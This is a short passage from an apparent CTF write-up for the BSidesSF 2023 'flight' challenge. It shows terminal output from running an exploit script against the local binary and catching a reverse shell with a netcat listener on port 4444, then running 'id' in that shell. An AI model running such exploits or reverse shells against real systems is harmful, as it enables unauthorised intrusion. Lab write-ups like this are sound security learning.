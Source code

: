 Now we can run the exploit and get our reverse shell.

```default
┌─[kali@kali]-[~/Documents/CTF/BSidesSF2023/ctf-2023/challenges/flight/solution]
└─━ [*]$ python3 exploit2.py                                             
[+] Starting local process '../distfiles/flight': pid 20232
[*] running in new terminal: ['/usr/bin/gdb', '-q', '../distfiles/flight', '20232']
[+] Waiting for debugger: Done 
...
```

```default
┌─[kali@kali]-[~/Documents/CTF/BSidesSF2023/ctf-2023/challenges/flight]
└─━ [*]$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42670
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner)

```

